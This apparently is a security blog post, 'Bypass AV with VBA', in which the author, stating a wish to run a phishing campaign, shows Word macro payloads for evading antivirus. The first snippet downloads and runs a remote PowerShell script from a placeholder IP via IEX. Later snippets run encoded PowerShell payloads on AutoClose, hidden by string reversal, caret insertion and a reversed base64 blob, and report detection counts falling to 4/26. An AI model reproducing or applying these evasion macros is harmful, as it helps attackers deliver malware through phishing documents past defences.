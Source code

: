 ```yaml
---
title: Bypass AV with VBA
date: "2021-11-04T22:40:32.169Z"
description: How my MalDoc bypassed AV.
---
```


So I wanted to start a phishing campaign and sadly every maldoc seems to fail bypassing AV for some reason

I've already taken the OSEP course so I do have some knowledge when it comes to AV bypass techniques


### What can I do now?

Well it was pretty confusing on how to approach this problem as whenever I used `Document_Open` or `AutoOpen` in my macro AV would detect it pretty easily.

### What is the problem?

Let's take this first example which is pretty simple and pretty familiar 

```vb
Sub MyMacro()
    cmd = "powershell.exe -nop -c ""IEX(iwr http://10.10.10.10/evil.ps1)"""
    Shell cmd
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```
Well if we think about it what is happening is when a document is opened we call the function `MyMacro` which will trigger the execution of an in-memory powershell agent

I tried various obfuscation methods, that helped in reducing the total number of AV detections, but still the number was high for my taste

I finally figured out that the problem might not be with `MyMacro` but instead `AutoOpen` as I would expect any half decent AV (including Defender) would go after functions that are ran at the startup of a word document 

Well what can I do??

### Events

As explained here in the [Microsoft documentation](https://docs.microsoft.com/en-us/office/vba/word/concepts/customizing-word/auto-macros), We have more than one event to play around with!

AutoExec/AutoNew/AutoClose/AutoExit

Which are all not as heavily used as the infamous `AutoOpen`.

So let's try again with another event this time 

For the sake of making this pretty simple I'll just end up using `AutoClose` which will trigger whenever the document was closed instead.

### First Attempt 

I tried using the following snippet and tested it against antivirus solutions 

```vb
Sub MyMacro()
MsgBox "Evil stuff should happen now"
cmd = "cmd.exe /k powershell.exe -nop -enc [base64 blob of payload]"
Shell cmd
End Sub

Sub AutoClose()
MyMacro
End Sub
```

Sadly it got detected at a rate of `10/26`

![Image](https://i.imgur.com/UdJPOEJ.png)


### Second Attempt

Ok we got it now, let's use some basic obfuscation and see what happens 

I just tried to reverse a small part of the payload `cmd.exe` 

```vb
Sub MyMacro()
MsgBox "Evil stuff should happen now"
cmd = "exe.dmc"
cmd2 = " /k powershell.exe -nop -enc [base64 blob of payload]"
fcmd = StrReverse(cmd) & cmd2
Shell fcmd
End Sub

Sub AutoClose()
MyMacro
End Sub
```

Ok now we reduced the hit by a little but we still got a long way to go 

![Image](https://i.imgur.com/NxoRuDt.png)


### Third Attempt

Now I've seen this trick before being referenced to bypass EDR's and AV's when executing commands with `cmd.exe`

You would just need to add `^` between characters and it would resolve it as a null value and ignore it apparently ? Am not particularly sure on the reason but it seems to work!

So if we tried something like `net users` and `n^e^t us^er^s` both would result the same output but one is obfuscated while the other isn't (Must be ran within a command prompt)

So I adjusted my payload by a little bit and ended with something like this 

```vb
Sub MyMacro()
MsgBox "Evil stuff should happen now"
cmd = "exe.dmc"
cmd2 = " /k p^O^wE^R^S^h^E^l^L^.^e^X^e -^n^o^p -^e^n^c [base64 blob of payload]"
fcmd = StrReverse(cmd) & cmd2
Shell fcmd
End Sub

Sub AutoClose()
MyMacro
End Sub
```

And that seems to work in obfuscating some AV's too!

![Image](https://i.imgur.com/9n8T6eK.png)


### Final attempt

Now all we can do is just try obfuscating even more and more

So I decided to reverse the `base64 blob` and it would look something like this 

```vb
Sub MyMacro()
MsgBox "Evil stuff should happen now"
cmd = "exe.dmc"
cmd2 = " /k p^O^wE^R^S^h^E^l^L^.^e^X^e -^n^o^p -^e^n^c "
cmd3 = "[Reversed base64 blob of payload]"
fcmd = StrReverse(cmd) & cmd2 & StrReverse(cmd3)
Shell fcmd
End Sub

Sub AutoClose()
MyMacro
End Sub
```

And the final result was amazing! we only got `4/26` hits

![Image](https://i.imgur.com/i37qyB5.png)


### Conclusion

Try other event triggers, and try some easy obfuscation methods you never know what might work

Thank you for sticking around!
